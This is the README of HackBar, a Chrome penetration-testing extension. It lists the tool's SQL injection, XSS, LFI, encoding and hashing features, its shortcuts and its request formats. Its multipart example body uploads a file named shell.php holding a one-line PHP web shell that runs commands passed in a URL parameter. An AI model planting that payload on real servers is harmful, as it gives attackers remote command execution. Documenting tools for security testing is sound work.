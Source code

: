 # HackBar

HackBar for Chrome.

Available on [Chrome Web Store](https://chrome.google.com/webstore/detail/hackbar/ginpbkfigcoaokgflihfhhmglmbchinc).

## Requested Permissions

* tabs
* webRequest
* webRequestBlocking

## Features

* Supported methods
  * GET
  * POST
    * application/x-www-form-urlencoded
    * [multipart/form-data](#multipartform-data)
    * [application/json](#applicationjson)

* SQLi
  * Dump all database names (MySQL, PostgreSQL)
  * Dump tables from database (MySQL, PostgreSQL)
  * Dump columns from database (MySQL, PostgreSQL)
  * Union select statement (MySQL, PostgreSQL)
  * Error-based injection statement (MySQL)
  * Space to Inline comment

* XSS
  * Html encode/decode
  * String.fromCharCode encode/decode

* LFI
  * PHP wrapper - Base64

* Encoding
  * URL encode/decode
  * Base64 encode/decode
  * Hexadecimal encode/decode
  * Unicode encode/decode

* Hashing
  * MD5
  * SHA1
  * SHA256
  * SHA512

## Usage

### How to open it?

1. Open **Developer tools** (Press ```F12``` or ```Ctrl + Shift + I```)
2. Switch to **HackBar** tab
3. Enjoy it

### Shortcuts

| Description | Default   | Mac           |
| ----------- | --------- | ------------- |
| Load URL    | `Alt + A` | `Control + A` |
| Split URL   | `Alt + S` | `Control + S` |
| Execute URL | `Alt + X` | `Control + X` |

### Supported enctype

#### multipart/form-data

After changing **enctype** field to ```multipart/form-data```, you can put your payload into **Body** field such as the following:

```
------WebKitFormBoundarydbJBATDXCC6CL0lZ
Content-Disposition: form-data; name="user"

user
------WebKitFormBoundarydbJBATDXCC6CL0lZ
Content-Disposition: form-data; name="file"; filename="shell.php"
Content-Type: application/x-httpd-php

<?php passthru($_GET['c']); ?>
------WebKitFormBoundarydbJBATDXCC6CL0lZ--
```

We will consider the first line as boundary, and reconstruct a form element to send your request.

Therefore, sent boundary will not be the same as your typed.

#### application/json

After changing **enctype** field to ```application/json```, you can put your payload into **Body** field such as the following:

```
{
  "username": "admin",
  "password": "admin"
}
```

In order to post JSON data, we will insert a dummy field or object to your JSON such as the following:

```
{"username":"admin","password":"admin","4dxnzjzd5mi":"="}
```

For more details, please visit "[Posting JSON with an HTML Form](https://systemoverlord.com/2016/08/24/posting-json-with-an-html-form.html)".

## Third-party Libraries

* Vue.js
* Vuetify.js
* [crypto-js](https://github.com/brix/crypto-js)
